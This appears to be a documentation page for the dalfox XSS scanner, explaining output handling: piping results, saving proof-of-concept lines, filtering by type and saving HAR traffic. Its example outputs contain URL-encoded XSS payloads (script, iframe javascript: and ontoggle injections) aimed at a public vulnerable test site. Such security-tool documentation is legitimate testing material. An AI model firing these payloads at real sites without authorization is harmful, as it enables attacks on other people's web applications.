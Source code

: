 ```yaml
---
title: Output Handling
redirect_from: /docs/output-handling/
nav_order: 5
toc: true
layout: page
---
```


## Use dalfox output to other tools via Pipeline

```bash
dalfox url http://testphp.vulnweb.com/listproducts.php | grep "\[V\]" | cut -d " " -f2 | xargs -I % open %
```

## Save only PoC code with Stdout

```bash
dalfox url http://testphp.vulnweb.com/listproducts.php > output
```

Output file

```bash
# cat output
[POC][G][BUILT-IN/dalfox-error-mysql2/GET] http://testphp.vulnweb.com/listproducts.php
[POC][G][BUILT-IN/dalfox-error-mysql/GET] http://testphp.vulnweb.com/listproducts.php
[POC][G][BUILT-IN/dalfox-error-mysql5/GET] http://testphp.vulnweb.com/listproducts.php?cat=dalfox.
[POC][G][BUILT-IN/dalfox-error-mysql1/GET] http://testphp.vulnweb.com/listproducts.php?cat=dalfox.
[POC][V][GET] http://testphp.vulnweb.com/listproducts.php?cat=%3CsCriPt+class%3Ddalfox%3Eprompt%2845%29%3C%2Fscript%3E
```

## Save only PoC code with `-o` flag
Command
```
dalfox url http://testphp.vulnweb.com/listproducts.php -o output
```

Output file
```
cat output
[POC][G][BUILT-IN/dalfox-error-mysql2/GET] http://testphp.vulnweb.com/listproducts.php
[POC][G][BUILT-IN/dalfox-error-mysql/GET] http://testphp.vulnweb.com/listproducts.php
[POC][G][BUILT-IN/dalfox-error-mysql5/GET] http://testphp.vulnweb.com/listproducts.php?cat=dalfox.
[POC][G][BUILT-IN/dalfox-error-mysql1/GET] http://testphp.vulnweb.com/listproducts.php?cat=dalfox.
[POC][V][GET] http://testphp.vulnweb.com/listproducts.php?cat=%3CsCriPt+class%3Ddalfox%3Eprompt%2845%29%3C%2Fscript%3E
```

## Save all log (with `--output-all` flag)

Command
```
dalfox url http://testphp.vulnweb.com/listproducts.php -o alllog.txt --output-all
```

Output file
```
cat alllog.txt
[*] Using single target mode
[*] Target URL: http://testphp.vulnweb.com/listproducts.php
[*] Vaild target [ code:200 / size:4819 ]
[*] Using dictionary mining option [list=GF-Patterns] 📚⛏
[*] Using DOM mining option 📦⛏
[*] Start static analysis.. 🔍
[*] Start parameter analysis.. 🔍
[*] Start BAV(Basic Another Vulnerability) analysis / [sqli, ssti, OpenRedirect]  🔍
...snip...
```

## Save only special PoC Code
Supported
* g(`grep`)
* r(`reflected`)
* v(`verified`)

Case
* g: `[POC][G][BUILT-IN/dalfox-error-mysql1/GET] http://testphp.vulnweb.com/listproducts.php?cat=dalfox%2C`
* r: `[POC][R][GET] http://testphp.vulnweb.com/listproducts.php?cat=%3CdETAILS%250aopen%250aonToGgle%250a%3D%250aa%3Dprompt%2Ca%28%29%3E`
* v: `[POC][V][GET] http://testphp.vulnweb.com/listproducts.php?cat=%3CiFrAme%2Fsrc%3DjaVascRipt%3Aalert%281%29+class%3Ddalfox%3E%3C%2FiFramE%3E`

Command (only grep and verified poc)
```
dalfox url http://testphp.vulnweb.com/listproducts.php --only-poc=g,v
```

## Save Traffic in HAR File
```
dalfox url http://testphp.vulnweb.com/listproducts.php --har-file-path=log.har
```